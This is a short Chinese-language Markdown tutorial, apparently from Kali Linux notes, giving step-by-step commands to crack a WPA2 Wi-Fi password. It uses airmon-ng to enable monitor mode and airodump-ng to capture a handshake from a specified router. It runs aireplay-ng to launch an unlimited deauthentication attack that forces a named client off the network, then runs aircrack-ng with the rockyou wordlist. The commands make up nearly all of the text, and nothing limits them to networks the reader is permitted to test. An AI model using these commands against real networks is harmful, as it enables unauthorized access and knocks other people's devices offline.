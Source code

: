 总操作流程：
- 1、[开启](#kail-linux-01)
- 2、[抓包](#kail-linux-02)
- 3、[破解](#kail-linux-03)

***

# <a name="kail-linux-01" href="#" >开启</a>

>1、开启监听模式

```shell
ifconfig wlan0 up

airmon-ng start wlan0

ifconfig
```

- 成功标志

![](image/2-1.png)

>2、开始扫描附近的无线网络

```shell
airodump-ng wlan0mon
```
![](image/2-2.png)

# <a name="kail-linux-02" href="#" >抓包</a>

>1、监听与获取

```
airodump-ng wlan0mon --bssid 78:02:F8:27:F8:BB -c 1 -w wpa2 
```
 -c指定频道号
 –bssid指定路由器bssid
 -w指定抓取的数据包保存位置

!(image/2-3.png)

 > 2、发起攻击（新开一个窗口，监听与获取那个窗口不用关闭）

 ```shell
 aireplay-ng -0 0 -a 78:02:F8:27:F8:BB -c 30:B4:9E:D7:DA:71 wlan0mon
 ```

-0表示发起deauthentication攻击， 0为无限
-a指定无线路由器BSSID
-c指定强制断开的设备

- 成功标志

!(image/2-4.png)

# <a name="kail-linux-01" href="#" >破解</a>

```
airmon-ng stop wlan0mon

# 解压字典
gzip -d /usr/share/wordlists/rockyou.txt.gz

cd ~

# 可以看到抓包的-w后的 wpa2的名字的.cap文件

ls wpa*

# 第一次抓包是01，第二次抓包是02
aircrack-ng -a2 -b 78:02:F8:27:F8:BB -w /usr/share/wordlists/rockyou.txt wpa2-01.cap

```
